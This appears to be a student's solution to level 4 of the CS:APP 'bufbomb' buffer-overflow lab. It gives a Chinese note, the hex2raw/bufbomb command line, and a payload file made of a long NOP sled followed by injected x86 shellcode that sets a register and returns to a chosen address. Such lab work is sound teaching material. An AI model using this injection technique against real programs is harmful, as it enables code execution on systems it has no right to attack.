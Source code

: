 ```cpp
68 3a 8e 04 08
c3
78 2d 68 55

使用用户名"h"时这是一个可行的答案
cat level4.txt |./hex2raw -n|./bufbomb -n -u h

level4.txt:
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90
b8 2f 3f 08 20
8d 6c 24 28
68 3a 8e 04 08
c3
```